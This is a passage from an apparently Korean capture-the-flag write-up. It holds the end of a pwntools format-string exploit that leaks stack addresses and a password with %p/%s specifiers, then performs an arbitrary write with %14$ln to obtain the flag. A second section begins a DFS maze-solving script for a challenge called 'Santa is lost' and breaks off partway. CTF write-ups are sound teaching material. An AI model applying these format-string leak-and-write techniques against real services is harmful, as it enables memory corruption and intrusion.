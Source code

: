 ```python
for i in range(0x100):
    sla(">> ", "2")
    sla("Password : ", f"%{offset}$p")
    print(rvl()+(str(offset).encode()))
    offset += 1'''

sla(">> ", "2")
sla("Password : ", "%31$s")

pw = rv(7)

sla(">> ", "2")
sla("Password : ", "%42$p")

stack_leak = int(rv(14), 16)
aaw = stack_leak - 0x1d8
log.info(hex(aaw))

sla(">> ", "2")
sla("Password : ", pw)
sla("Name", "wyv3rn")

for i in range(6):
    sla(">> ", "2")
    sla("Password : ", pw)
    sla("Name", p64(aaw))

sla(">> ", "2")
sla("Password : ", "%14$ln")

sla(">> ", "3")

r.interactive()
```

위 익스플로잇으로 플래그를 얻어낼 수 있다.

<br><br><br>

# R - Santa is lost

미로의 형태가 길이 유일한 트리 형태이고, 좌우, 상하가 역연산 관계이기 때문에 어떤 경로를 가더라도 목표한 1023, 1023에 도달하면 원하는 값을 얻을 수 있다. 

미로 필승전략 오른쪽 벽 타기, 고급지게 표현하면 DFS 그래프 탐색을 이용해서 1023, 1023에 도달할 수 있다. 

ex.py

```python
from pwn import *

p = process("./prob")

f = open("state.txt", "w")
flag = open("flag.txt", "w")

block = b"\xe2\x97\xbd"
santa = b"\xf0\x9f\x8e\x85"

x = 0
y = 0
wall_d = 2 # right: 0, up: 1, left: 2, down: 3

def restate(cmd):
    global x, y
    p.send(cmd)
```